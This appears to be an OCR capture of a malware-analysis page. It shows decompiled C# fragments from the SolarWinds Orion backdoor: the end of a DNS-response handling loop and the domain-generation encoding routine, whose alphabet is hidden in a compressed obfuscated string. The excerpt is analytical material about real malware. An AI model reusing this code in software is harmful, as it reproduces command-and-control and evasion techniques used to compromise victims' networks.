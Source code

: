 ```csharp
				goto IL_1F7;
			case OrionImprovementBusinessLayer.AddressFamilyEx.Error:
				dnsRecords.A = random.Next(420, 540);
				break;
			default:
				goto IL_1F7;
			}
			IL_1F9:
			num2++;
			continue;
			IL_1F7:
			flag = true;
			goto IL_1F9;
		}
		break;
	}
	OrionImprovementBusinessLayer.HttpHelper.Close(httpHelper, thread);
}
```

<br /><br />
DGA Encryption logic
```csharp
private static string Base64Encode(byte[] bytes, bool rt)
{
	string text = OrionImprovementBusinessLayer.ZipHelper.Unzip("K8gwSs1MyzfOMy0tSTfMskixNCksKkvKzTYoTswxN0sGAA==");
	string text2 = "";
	uint num = 0U;
	int i = 0;
	foreach (byte b in bytes)
	{
		num |= (uint)((uint)b << i);
		for (i += 8; i >= 5; i -= 5)
		{
			text2 += text[(int)(num & 31U)].ToString();
			num >>= 5;
		}
	}
	if (i > 0)
	{
		if (rt)
		{
			num |= (uint)((uint)new Random().Next() << i);
		}
		text2 += text[(int)(num & 31U)].ToString();
	}
	return text2;
}

```
